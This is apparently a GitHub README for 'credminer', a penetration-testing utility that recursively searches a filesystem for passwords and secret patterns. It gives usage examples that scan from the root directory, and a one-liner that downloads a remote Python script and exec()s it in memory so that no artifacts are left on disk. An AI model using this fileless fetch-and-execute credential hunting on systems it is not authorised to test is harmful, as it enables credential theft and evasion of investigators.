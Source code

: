 # credminer

credminer is a Python recursive string and regex utility. It allows you to recursively search through all files with in a directory and any subdirectories and matches on a string or regex. When a match is found it prints what was matched and the full path of the file it was found in to the screen. By default it will search all filetypes so unless you want to look for secrets in a specific filetype the `-f` can be ommited.

![demo2.gif]()

## usage

~~~

usage: credminer.py [-h] (-t TEXT | -r REGEX | -s) -d DIRECTORY [-f FILETYPE] [-a ADDREGEX]

options:
  -h, --help            show this help message and exit
  -t TEXT, --text TEXT  text or to search for
  -r REGEX, --regex REGEX
                        regular expression to match on
  -s, --secrets         Secrets to search for
  -d DIRECTORY, --directory DIRECTORY
                        The directory to search in
  -f FILETYPE, --filetype FILETYPE
                        The file extention to search for
  -a ADDREGEX, --addregex ADDREGEX
                        Adds a regex expression to the secrets file
~~~

      
## Examples

`python3 credminer.py -d / -f txt -t password`
This will search for any files under the root directory that are text files and contain the word password in them.

`python3 credminer.py -d / -f pdf -t password`
This will search for the word password in pdf files under the root directory

`python3 credminer.py -d / -s`
This will load the json regexes file and search for secrets matching each of the regexes on all file types under the root directory

`python3 credminer.py -d / -f txt -r "(pass|password|code|key)"`
This will search for either the word password or passcode in text files that are under the root directory

# invoke_credminer

This is  a modified version of `credminer.py` to allow you to run the script without saving it to disk. The reason being, is depending on your use case such as a Penetration Tester, you may not want the script to be saved on disk to leave definite artifacts behind. By default it runs the `get_secrets` function on the root directory, looking for all filetypes. However, this can be easily changed as there are several variables which have been added to pass the arguments to the script without having to pass them yourself. In a way this functions similarly to `IEX` in PowerShell. By changing the values of `text_search`, `regex_search`, `secret_search`, `filetype_search`, and `search_directory` it will automatically assign the arguments so all that has to be done to run the program on disk is `python3 credminer.py` but to run it without downloading it to disk you can run `python3 -c 'import requests; r = requests.get("https://raw.githubusercontent.com/3Xploitd/credminer/main/invoke_credminer.py").text;exec(r)'`.

![demo.gif](https://github.com/3Xploitd/credminer/blob/c3a23752a1accbaffce095824b158f53de8918ec/demo.gif)
